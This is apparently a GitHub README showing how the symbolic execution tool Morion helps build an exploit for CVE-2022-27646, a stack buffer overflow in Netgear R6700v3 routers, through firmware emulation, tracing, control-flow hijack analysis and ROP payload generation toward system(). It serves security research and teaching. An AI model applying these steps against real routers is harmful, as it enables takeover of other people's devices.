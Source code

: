 # Exploiting a Stack Buffer Overflow on the Netgear R6700v3 (CVE-2022-27646)
<!--TODO--------------------------------------------------------------------------------------------
--------------------------------------------------------------------------------------------------->
This repository is intended to demonstrate some functionalities of
**[Morion](https://github.com/pdamian/morion)**, a proof-of-concept (PoC) tool to experiment with
**symbolic execution** on real-world (ARMv7) binaries. We show some of Morion's capabilities by
giving a concrete example, namely, how it can assist during the process of creating a working
exploit for **CVE-2022-27646** - a stack buffer overflow vulnerability in Netgear R6700v3 routers
(version 10.04.120_10.0.91).

The repository contains all files needed to follow along (e.g. scripts to emulate the vulnerable
firmware) and reproduce the discussed steps of how to use *Morion* for exploit development. The
documentation to demonstrate Morion's workings is structured as follows:
1. [Setup](./1_setup.md) - Explains how to setup analysis (running *Morion*) and target systems
    (emulating the vulnerable firmware).
2. [Emulation](./2_emulation.md) - Explains how to emulate the vulnerable target binary.
3. [Vulnerability CVE-2022-27646](./3_vulnerability.md) - Provides some background information to
    the leverage security vulnerability.
4. [Tracing](./4_tracing.md) - Explains how to record a concrete execution trace of a target binary
    using *Morion*.
5. [Symbolic Execution](./5_symbex.md) - Explains how to use *Morion* for analyzing a recorded trace
    symbolically.
6. [Exploitation](./6_exploitation.md) - Explains how *Morion* might assist in crafting an exploit.
<!--REMOVE----------------------------------------------------------------------------------------->
## 1. Preparation / Setup
### 1.1 Host System
- Install the following dependencies:
  - git
  - binwalk (https://github.com/ReFirmLabs/binwalk)
- Clone the project repository:
  ```
  git clone https://github.com/pdamian/netgear_r6700v3_circled.git && cd netgear_r6700v3_circled/
- Extract the R6700v3 firmware with *binwalk*:
  ```
  binwalk -e -M -C firmware/ firmware/R6700v3-V1.0.4.120_10.0.91.zip
  ```
- Copy the following files to the firmware's root filesystem:
  ```
  # Variable pointing to the root filesystem
  export ROOTFS="$(pwd)/firmware/_R6700v3-V1.0.4.120_10.0.91.zip.extracted/_R6700v3-V1.0.4.120_10.0.91.chk.extracted/squashfs-root"
  
  # Copy pre-built gdbserver binary (or compile your own statically-linked version; arch: armv7-eabihf, libc: uclibc)
  cp firmware/bins/gdbserver $ROOTFS/gdbserver
  
  # Copy pre-built libnvram.so library (or compile your own version; arch: armv7-eabihf, libc: uclibc)
  cp firmware/bins/libnvram.so $ROOTFS/libnvram.so
  
  # Copy pre-built libcircled.so library (or compile your own version; arch: armv7-eabihf, libc: uclibc)
  cp firmware/bins/libcircled.so $ROOTFS/libcircled.so

  # Patch out the anti-debugging functionality (allow LDPRELOAD) of the circled binary
  python3 firmware/circled.patch.py $ROOTFS/bin/circled $ROOTFS/bin/circled.patched
  
  # Copy circled.sh script (wrapper to emulate binary circled)
  cp firmware/circled.sh $ROOTFS/circled.sh
  ```
- Copy the directories `$ROOTFS/` and `server/` to an ARMHF guest system (e.g. a *QEMU* ARMHF Debian VM).
### 1.2 ARMHF Guest System
- In the following, we assume that the variable $ROOTFS points to the copied firmware's root filesystem.
- Configure conservative ASLR as being used on the Netgear R6700v3:
  ```
  echo 1 | sudo tee /proc/sys/kernel/randomize_va_spac
  ```
- Chroot into the root filesystem:
  ```
  sudo mount -t proc /proc/ $ROOTFS/proc/
  sudo mount -t sysfs /sys/ $ROOTFS/sys/
  sudo mount -o bind /dev/ $ROOTFS/dev/
  sudo chroot $ROOTFS/ /bin/sh
  export SHELL=/bin/sh
  ```
## 2. Morion Tracing
Use the following steps to trace the binary *circled* with a proof-of-vulnerability (PoV) payload (as e.g. identified by a fuzzer):
| Step | System         | Command                                                                      | Explanation                                                             |
|------|----------------|------------------------------------------------------------------------------|-------------------------------------------------------------------------|
| 1    | Guest          | `python3 server/circled.server.py --payload "pov"`                           | Start HTTP server delivering proof-of-vulnerability (PoV) payloads      |
| 2    | Guest (chroot) | `/circled.sh --gdb`                                                          | Emulate binary *circled* with GDB attached (and therefore no ASRL)      |
| 3    | Host  (morion) | `cp circled.init.yaml circled.yaml && gdb-multiarch -q -x circled.trace.gdb` | Collect an execution trace of the binary *circled*                      |

## 3. Morion Symbolic Execution
Use the following steps to execute the collected trace symbolically and analyse for potential control flow hijacking vulnerabilities:
| Step | System         | Command                                                                      | Explanation                                                             |
|------|----------------|------------------------------------------------------------------------------|-------------------------------------------------------------------------|
| 4    | Host  (morion) | `morion_control_hijacker circled.yaml --disallow_user_inputs`                | Symbolically analyse the trace for potential control flow hijacks       |
| 5.1  | Host  (morion) | `morion_control_hijacker circled.yaml --skip_state_analysis`                 | Symbolically analyse the trace for potential control flow hijacks       |
| 5.2  | Host  (morion) | `quit`                                                                       | Ignore notification about unrestricted `r11/fp` register                |
| 5.3  | Host  (morion) | `%run -i circled.rop1.py`                                                    | Try jump to ROP gadget 1: `0xc9b8: mov r0, r6; bl #0x94a0 <system@plt>` |
| 5.4  | Host  (morion) | `%run -i circled.rop2.py`                                                    | Put argument for function `system@plt`                                  |
| 5.5  | Host  (morion) | `quit`                                                                       | Terminate                                                               |
| 6    | Host  (morion) | `morion_rop_generator circeld.yaml default`                                  | Generate exploit payload for a specified ROP chain                      |
## 2. References
- Emulating Netgear R6700v3 cicled binary:
  - https://medium.com/@INTfinity/1-1-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-1-5bab391c91f2
  - https://medium.com/@INTfinity/1-2-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-2-cf1571493117
  - https://medium.com/@INTfinity/1-3-exploiting-and-debugging-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-a80dbaf1245d
- Emulating IoT Firmware Made Easy:
  - https://boschko.ca/qemu-emulating-firmware/
- Defeating the Netgear R6700v3:
  - https://www.synacktiv.com/en/publications/pwn2own-austin-2021-defeating-the-netgear-r6700v3.html
- Chroot:
  - https://wiki.archlinux.org/title/Chroot#Using_chroot
- Ready-to-Use Cross-Compilation Toolchains:
  - https://toolchains.bootlin.com/
- NVRAM Emulator:
  - https://github.com/firmadyne/libnvram
